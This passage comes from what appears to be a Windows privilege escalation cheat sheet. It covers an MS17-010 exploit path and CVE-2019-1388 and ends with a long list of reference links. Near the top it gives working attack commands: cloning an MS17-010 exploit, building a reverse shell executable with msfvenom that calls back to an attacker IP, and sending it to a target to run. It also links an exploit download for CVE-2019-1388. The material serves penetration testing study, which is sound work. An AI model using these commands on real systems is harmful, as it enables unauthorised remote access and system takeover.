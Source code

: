 If you can't use Metasploit and only want a reverse shell.

```powershell
git clone https://github.com/helviojunior/MS17-010

# generate a simple reverse shell to use
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```

### CVE-2019-1388

Exploit : https://packetstormsecurity.com/files/14437/hhupd.exe.html

Requirement:
- Windows 7 
- Windows 10 LTSC 10240

Failing on : 
- LTSC 2019
- 1709
- 1803

Detailed information about the vulnerability : https://www.zerodayinitiative.com/blog/2019/11/19/thanksgiving-treat-easy-as-pie-windows-7-secure-desktop-escalation-of-privilege


## References

* [Windows Internals Book - 02/07/2017](https://docs.microsoft.com/en-us/sysinternals/learn/windows-internals)
* [icacls - Docs Microsoft](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)
* [Privilege Escalation Windows - Philip Linghammar](https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html)
* [Windows elevation of privileges - Guifre Ruiz](https://guif.re/windowseop)
* [The Open Source Windows Privilege Escalation Cheat Sheet by amAK.xyz and @xxByte](https://addaxsoft.com/wpecs/)
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
* [TOP–10 ways to boost your privileges in Windows systems - hackmag](https://hackmag.com/security/elevating-privileges-to-administrative-and-further/)
* [The SYSTEM Challenge](https://decoder.cloud/2017/02/21/the-system-challenge/)
* [Windows Privilege Escalation Guide - absolomb's security blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
* [Chapter 4 - Windows Post-Exploitation - 2 Nov 2017 - dostoevskylabs](https://github.com/dostoevskylabs/dostoevsky-pentest-notes/blob/master/chapter-4.md)
* [Remediation for Microsoft Windows Unquoted Service Path Enumeration Vulnerability - September 18th, 2016 - Robert Russell](https://www.tecklyfe.com/remediation-microsoft-windows-unquoted-service-path-enumeration-vulnerability/)
* [Pentestlab.blog - WPE-01 - Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)
* [Pentestlab.blog - WPE-02 - Windows Kernel](https://pentestlab.blog/2017/04/24/windows-kernel-exploits/)
* [Pentestlab.blog - WPE-03 - DLL Injection](https://pentestlab.blog/2017/04/04/dll-injection/)
* [Pentestlab.blog - WPE-04 - Weak Service Permissions](https://pentestlab.blog/2017/03/30/weak-service-permissions/)
* [Pentestlab.blog - WPE-05 - DLL Hijacking](https://pentestlab.blog/2017/03/27/dll-hijacking/)
* [Pentestlab.blog - WPE-06 - Hot Potato](https://pentestlab.blog/2017/04/13/hot-potato/)
* [Pentestlab.blog - WPE-07 - Group Policy Preferences](https://pentestlab.blog/2017/03/20/group-policy-preferences/)
* [Pentestlab.blog - WPE-08 - Unquoted Service Path](https://pentestlab.blog/2017/03/09/unquoted-service-path/)